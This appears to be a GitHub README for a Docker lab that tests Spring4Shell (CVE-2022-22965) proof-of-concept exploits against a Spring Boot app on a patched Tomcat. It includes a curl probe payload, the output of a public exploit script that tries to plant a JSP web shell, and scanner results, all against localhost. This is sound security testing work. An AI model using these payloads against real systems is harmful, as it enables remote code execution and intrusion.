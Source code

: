 # Lab 2: Partially vulnerable deployment

Lab to test poc exploit on vulnerable spring boot version 2.6.3 deployed on fixed tomcat version 8.5.78 with open-jdk 11

```js
Tomcat version: 8.5.78
openJDK: 11
Spring Boot: 2.6.3
```

## How to deploy?

```bash
$ docker build . -t sp4s-tomcat8.5.73-jdk11-spb2.6.3 && docker run -p 8001:8080 sp4s-tomcat8.5.73-jdk11-spb2.6.3
```

You can access the application at http://localhost:8001/helloworld/greeting

## Test if application is vulnerable

### Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```bash
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
$ curl -i http://localhost:8001/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 400 
Content-Type: application/json
Date: Sun, 17 Apr 2022 19:55:40 GMT
Connection: close
Content-Length: 110

{"timestamp":"2022-04-17T19:55:40.760+00:00","status":400,"error":"Bad Request","path":"/helloworld/greeting"}
```

400 response indicates that application is vulnerable but is it exploitable let's try to exploit it using another exploit poc

### POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC

```bash
$ python exploit.py --url http://localhost:8001/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 500
[*] Modifying Log Configurations
[*] Response code: 500
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 500
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost.com:8001/shell.jsp?cmd=id
```

It gives 500 error when trying to upload the shell because of fixed tomcat version.


### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
$ python spring4shell-scan.py --url http://localhost:8001/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8001/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8001/helloworld/greeting | PAYLOAD: class.module.classLoader[ol38bo1]=ol38bo1
[!!!] Target Affected (CVE-2022-22965)
[!] Total Vulnerable Hosts: 1
[!] http://localhost:8001/helloworld/greeting
```

Again similar results exploit poc suggests application is vulnerable which it is but because tomcat version is fixed exploit didn't worked

